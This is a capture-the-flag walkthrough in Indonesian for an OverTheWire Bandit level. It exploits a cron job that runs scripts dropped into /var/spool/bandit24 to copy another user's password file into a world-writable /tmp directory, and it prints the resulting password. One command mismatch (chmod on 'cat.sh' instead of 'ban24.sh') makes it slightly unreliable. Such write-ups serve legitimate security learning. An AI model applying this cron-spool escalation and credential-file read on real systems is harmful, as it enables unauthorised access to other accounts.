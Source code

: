 # Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)

# Solusi
kita telusuri seperti level sebelumnya didapatkan isi shell script
```
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
intinya shell tersebut mengekskusi dan menghapus script yang ada di direktori ***/var/spool/bandit24*** \
untuk itu kita buat direktori baru di ***tmp*** dan membuat shell script di ***/var/spool/bandit24***\
yang mana untuk copy password pada ***/etc/bandit_pass/bandit24*** ke direktori ***tmp*** \
kita buat direktori dan atur permissions menjadi r/w
```
bandit23@bandit:/var/spool/bandit24$ mkdir /tmp/sol24
bandit23@bandit:/var/spool/bandit24$ chmod 777 /tmp/sol24
```
script seperti ini
```
bandit23@bandit:/var/spool/bandit24$ touch ban24.sh
bandit23@bandit:/var/spool/bandit24$ cat ban24.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/sol24/hasil.txt
bandit23@bandit:/var/spool/bandit24$ chmod +x cat.sh
```

kalo kita coba listing direktori default tidak bisa, harus secara eksplisit
```
bandit23@bandit:/tmp$ ls
ls: cannot open directory '.': Permission denied
```
kalo kita eksplisit didapatkan
```
bandit23@bandit:/var/spool/bandit24$ ls /tmp/sol24
hasil.txt
```
langsung kita cetak didapatkan password
```
bandit23@bandit:/var/spool/bandit24$ cat /tmp/sol24/hasil.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
<details>
<summary>Password</summary>
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
</details>